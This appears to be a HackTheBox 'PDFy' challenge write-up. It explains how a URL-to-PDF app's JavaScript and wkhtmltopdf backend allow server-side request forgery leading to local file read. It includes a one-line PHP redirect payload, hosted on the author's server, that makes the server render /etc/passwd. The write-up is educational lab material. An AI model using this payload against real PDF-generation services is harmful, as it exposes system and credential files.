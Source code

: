 ```yaml
---
title: "[HTB] PDFy - LFI using wkhtmltopdf"
summary: "Writeup for HackTheBox PDFy challenge"
categories: ["Writeup", "Hacking"]
tags: ["hackthebox"]
# externalUrl: "https://www.docker.com/blog/docker-desktop-4-18/"
date: 2024-08-06
draft: false
showauthor: false
authors:
  - hakkabaka
# series: ["The Complete PM"]
# series\_order: 1
---
```


**Difficulty:** Easy

## First look
The application is pretty straightforward: it has a single form that takes a string input. If the string is a URL, the app generates a PDF of the webpage. There’s not much to see except for some JavaScript. Below is the JavaScript code, main.js, with added details and an improved explanation for better understanding.

This JavaScript code handles form submissions on the webpage. Specifically, it processes a URL input, sends it to a backend API, and displays a PDF screenshot of the corresponding webpage. Here's a detailed breakdown of the code:

### Variable Declarations

```javascript
const form       = document.getElementById('form');
const url        = document.getElementById('url');
const alerts     = document.getElementById('alerts');
const screenshot = document.getElementById('screenshot');
const loading    = document.getElementById('loading');
```

These lines select various HTML elements by their IDs and store them in constants for later use.

### Flash Function

```javascript
const flash = (message, level) => {
    alerts.innerHTML += `
        <div class="alert alert-${level}" role="alert">
            <button type="button" id="closeAlert" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
            <strong>${message}</strong>
        </div>
    `;
};
```

This function displays an alert message in the alerts element. The level parameter determines the type of alert (e.g., warning, success).

### Form Submission Event Listener

```javascript
form.addEventListener('submit', e => {
    e.preventDefault(); // Prevent default form submission behavior

    // Clear previous alerts and screenshot
    alerts.innerHTML = '';
    screenshot.innerHTML = '';

    // Check if the URL input is empty
    if (url.value.trim().length == 0) return flash('URL can\'t be empty', 'warning');

    // Show loading indicator
    loading.style.display = 'block';

    // Send a POST request to the server with the URL
    // API call
    fetch('/api/cache', {
        method: 'POST',
        body: JSON.stringify({
            'url': url.value
        }),
        headers: {
            'Content-Type': 'application/json'
        }
    })
    .then(resp => resp.json()) // Parse the JSON response
    .then(resp => {
        // Display a message if there is one
        if (resp.message) {
            flash(resp.message, resp.level);
            
            // Automatically close the alert after 2800ms
            setTimeout(() => {
                document.getElementById('closeAlert').click();
            }, 2800);
        }

        // Display the screenshot if a domain is returned
        if (resp.domain) {
            screenshot.innerHTML += `
                <h2>Screenshot for <a href="${url.value}" target="_blank">${resp.domain}</a></h2>
                <iframe src="/static/pdfs/${resp.filename}" frameborder="0" scrolling="no" style="height:100vh;width:65%;"></iframe>
            `;
        }
    })
    .then(() => {
        // Clear the URL input and hide the loading indicator
        url.value = '';
        loading.style.display = 'none';
    });
});
```

## Bling Assumptions
It's not best practice to make assumptions, but for this easy challenge, it was acceptable. The potential exploit vector follows this path:

SSRF -> Exploit something in the parser -> ??? -> Profit

**BUT!**
How is the PDF generated? The answer is **wkhtmltopdf**.

How do I know? When I directly contacted the /api/cache endpoint from main.js and sent a non-existing URL, I got this response:


```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.2 Python/3.12.2
Date: Tue, 06 Aug 2024 09:29:06 GMT
Content-Type: application/json
Content-Length: 312
Connection: close

{
  "level": "error",
  "message": "There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'http://google1.com', 'application/static/pdfs/cccc0ed9a20dcd4975f7c9f03f38.pdf']' returned non-zero exit status 1."
}

```

### wkhtmltopdf

I googled it and found some interesting links:

[Owning the cloud through SSRF and PDF generators](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/edit#slide=id.g5df2243028_0_107)

[High Vulnerability in Wkhtmltopdf 0.12.6](https://it.ucsf.edu/high-vulnerability-wkhtmltopdf-0126)

[wkhtmltopdf SSRF](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)

Quick look:

**wkhtmltopdf** is a popular open-source PDF and image rendering utility. If used improperly, it can introduce significant security vulnerabilities. Since wkhtmltopdf renders HTML content server-side, it's a prime target for both Server-side Request Forgery (SSRF) and Local File Inclusion (LFI).

The following payload can exploit this vulnerability:

```php
<?php header('location:file:///etc/passwd); ?>
```

## Exploit
Using a PHP payload uploaded to my VPS, I was able to exploit the vulnerability. After sending the URL to the payload, I received the flag.

<img class="thumbnailshadow" src="img/2.png"/>


